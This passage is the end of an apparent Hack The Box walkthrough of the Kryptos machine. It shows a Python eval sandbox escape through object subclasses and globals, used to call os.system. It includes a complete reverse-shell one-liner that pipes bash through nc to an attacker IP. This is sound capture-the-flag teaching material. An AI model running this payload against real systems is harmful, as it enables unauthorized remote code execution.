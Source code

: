 The next hurdle is to bypass `eval(expr, {'__builtins__':None})`. It can be challenging if you are not familiar with Python internals. ***Everything in Python is an object.*** As long as we have access to the object class, we can make use of Python's internal functions and attributes in the current scope to retrieve `__builtins__`, even if it's set to `None`.

```
# python3 exploit.py 500 "{}.__class__.__mro__[1].__subclasses__()[121].__init__.__globals__['__builtins__']['__import__']('os').system('rm -f /tmp/p; mknod /tmp/p p; /bin/bash </tmp/p | nc 10.10.15.127 1234 >/tmp/p')"
```

Here, I'm using the `warnings` module, to import the `os` module, in order to execute a reverse shell command through `os.system`.

<a class="image-popup">
![8011f698.png](/assets/images/posts/kryptos-htb-walkthrough/8011f698.png)
</a>

From here on, it\'s trivial to [upgrade](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) to a fully functioning shell and retrieve `root.txt`.

<a class="image-popup">
![7d946056.png](/assets/images/posts/kryptos-htb-walkthrough/7d946056.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/183
[2]: https://www.hackthebox.eu/home/users/profile/2571
[3]: https://www.hackthebox.eu/home/users/profile/21927
[4]: https://www.hackthebox.eu/
